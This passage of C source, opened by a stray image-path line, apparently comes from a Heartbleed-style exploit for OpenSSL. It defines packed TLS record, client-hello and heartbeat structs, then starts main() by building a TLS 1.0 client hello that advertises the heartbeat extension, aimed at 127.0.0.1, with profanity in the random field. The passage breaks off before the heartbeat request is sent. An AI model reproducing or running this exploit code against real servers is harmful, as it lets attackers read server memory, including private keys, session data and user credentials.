 
    struct tls_generic_message {
      uint8_t content_type;
      uint16_t version;
      uint16_t length;
    } __attribute__ ((packed));


    struct tls_received_message {
      struct tls_generic_message message;
      uint8_t payload[0x4000 - sizeof(struct tls_generic_message)];
    };

    struct tls_message_helo_client {
      struct tls_generic_message message;
      struct helo_message_client payload;
    } __attribute__ ((packed));

    struct tls_message_heartbeat {
      struct tls_generic_message message;
      struct heartbeat_message payload;
    } __attribute__ ((packed));

    /* TYPES END */



    int main(int argc, char **argv)
    {
    /* DATA: */
      char *name = "127.0.0.1";
      char *port = "https";

      struct tls_message_helo_client client_hlo = {
        .message = {
          22,     /* handshake message*/
          0x0103, /* protocol version 3.1 */
          htons(sizeof(struct helo_message_client)),
        },
        .payload = {
          .helo_message = {
        .handshake_type = 1, /* Client helo */
        .length = {0,0, sizeof(struct helo_message_client) - sizeof(struct helo_message)},
          },
          .version = 0x0103,   /* TLS 1.0 */
          .timestamp = 0x69624553,
          .random = "Fuck you asshole! Fuck you!",
          .sessid_length = 0,
          .cipher_suites = 0x2000, /* 0x0020 in network order */
          .ciphers = {0x14c0,0x0ac0,0x22c0,0x21c0,0x3900,0x3800,0x8800,0x8700,0x0fc0,0x05c0,0x3500,0x8400,0x12c0,0x08c0,0x1cc0,0x1bc0},
          .compression_method_cnt = 1,
          .compression_methods = {0},
          .extensions_length = 0x0500,
          .extension_hb = {0x0f00, 0x0100, 1}
        }
      };
